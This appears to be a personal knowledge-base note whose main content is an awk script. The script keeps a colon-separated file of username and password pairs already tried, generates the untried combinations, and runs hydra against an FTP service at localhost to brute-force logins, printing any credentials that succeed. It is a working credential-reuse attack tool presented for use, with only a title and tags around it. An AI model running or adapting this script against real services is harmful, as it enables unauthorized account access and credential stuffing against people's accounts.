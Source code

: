 # awk scripting tracking credential reuse bruteforcing with csv file db

- read and write a separated value file as a database
- attempt to reuse credentials using hydra and keep track of usernames and passwords tried

```awk
#!/usr/bin/awk -f
# attempt to reuse credentials using hydra and keep track of usernames and passwords tried
# read and write a separated value file as a database
## pass in parameter "type"

BEGIN {
  tried_database = "cred.dat"
  to_try = "to.try"
  FS=":"
  while (getline < tried_database) {
    print $1, $2
    users[$1] = 1
    passwords[$2] = 1
    tried[$1 FS $2] = 1
  }
  close(tried_database)
}
type ~ /u/ { users[$0] = 1 }
type ~ /p/ { passwords[$0] = 1 }
END {
  for (u in users) {
    for (p in passwords) {
      cred = u FS p
      done = cred in tried
      if (!done) {
        print "Trying " cred
        print cred > to_try
        print cred >> tried_database
      }
    }
  }
  close(to_try)
  command = "hydra -C to.try ftp://localhost"
  print command
  while (command | getline) {
    if ($0 ~ /login:.*password:/){
      print # found a password
    }
  }
}
```

~/kb/awk-scripting/hydra-bruteforce-with-database.awk
` zet/20221003151437/README.md `

# Related

- [20221014185509](/zet/20221014185509/README.md) kb file named kb/auto-awk.md
- [20221003151441](/zet/20221003151441/README.md) awk scripting
- ~/kb/auto-awk.md
- [20221003151438](/zet/20221003151438/README.md) awk scripting attempt to reuse credentials using hydra and keep track of usernames and passwords tried

Tags:

    #awk #script #database #creds
